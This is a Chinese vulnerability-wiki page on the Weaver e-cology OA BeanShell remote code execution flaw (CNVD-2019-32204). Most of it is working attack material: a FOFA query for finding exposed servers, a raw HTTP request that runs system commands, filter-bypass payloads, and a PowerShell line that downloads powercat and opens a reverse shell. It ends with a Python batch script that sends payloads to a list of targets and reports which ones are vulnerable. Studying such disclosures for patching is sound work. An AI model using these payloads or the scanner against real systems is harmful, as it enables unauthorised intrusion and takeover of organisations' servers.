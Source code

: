 ```yaml
---
title: 泛微OA Bsh 远程代码执行漏洞 CNVD-2019-32204
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 泛微OA
---
```


# 泛微OA Bsh 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

> [!NOTE]
>
> app=“泛微-协同办公OA”

## 影响版本

> [!NOTE]
>
> E-cology 7.0
> E-cology 8.0
> E-cology 8.1
> E-cology 9.0

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”

![](/img/20210924013615012710.png)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

#### 关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

### 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

```python
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

import requests,sys

headers = {
    'Content-Type': 'text/xml; charset=utf-8',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
    'Cache-Control': 'max-age=0',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'Content-Length': '578'
}

proxies= {'http':'http://127.0.0.1:8080'}
            
def Poc_check(target):

    Url_Payload1="/bsh.servlet.BshServlet"
    Url_Payload2="/weaver/bsh.servlet.BshServlet"
    Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
    Url_Payload4="/oa/bsh.servlet.BshServlet"
    
    Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
    Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
    Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
    for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
        url= target + Url_Payload
        for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
            try:
                http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                #print http_response.status_code
                if http_response.status_code == 200:
                    if ";</script>" not in (http_response.content):
                        if "Login.jsp" not in (http_response.content):
                            if "Error" not in (http_response.content):
                                print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                print "Server Current Username：{0}".format(http_response.content)
                elif http_response.status_code == 500:
                    print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                else:
                    pass              
            except Exception,Error:
                pass    
    
if __name__ == '__main__':
    for line in open(sys.argv[1]).readlines():
        target=line.strip()
        Poc_check(target)
```

```
#1.install python Dependencies Library 
pip install requests

#2.批量脚本 执行 
python Weaver-Ecology-OA_RCE-exp.py 


url.txt文件中 是url地址 需要带http协议

有任何问题请issue
```

